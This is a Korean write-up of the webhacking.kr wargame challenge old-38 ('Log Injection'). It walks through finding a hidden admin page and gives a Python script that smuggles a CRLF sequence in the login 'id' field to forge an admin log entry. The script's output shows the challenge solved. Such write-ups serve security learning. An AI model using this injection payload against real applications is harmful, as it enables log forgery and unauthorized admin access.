



# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

***


# **Description**




# **Write-Up**

페이지 소스를 보면 admin.php라는 파일이 있음을 알 수 있다.

```html
<html>
<head>
<title>Challenge 38</title>
</head>
<body>
<h1>LOG INJECTION</h1>
<form method=post action=index.php>
<input type=text name=id size=20>
<input type=submit value='Login'>
</form>
<!-- <a href=admin.php>admin page</a> -->
</body>
</html>
```

admin.php로 접근해 보자.



index.php에서 데이터를 넣으면 admin.php에 찍히는 것으로 보이고, SQLi는 안되고 '/'문자도 필터링 된다.



CRLF Injection을 통해서 admin으로 로그인 해보자.

> [CRLF Injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection#)

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-9/index.php'
SESSION_ID  = 'kbkqoa8a3tuso86knlnkpog5ai'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
data        = urllib.parse.urlencode({'id':'guest\r\n61.251.215.194:admin'}).encode()
request     = urllib.request.Request(url=CHALLENGE, headers=headers, data=data)
response    = urllib.request.urlopen(request)
result      = response.read().decode()

CHALLENGE   = 'https://webhacking.kr/challenge/bonus-9/admin.php'
request     = urllib.request.Request(url=CHALLENGE, headers=headers)
response    = urllib.request.urlopen(request)
result      = response.read().decode()
print(result)

[Output]
... 생략 ...
<script>alert('old-38 Pwned!');</script><hr>old-38 Pwned. You got 10point. Congratz!<hr>
```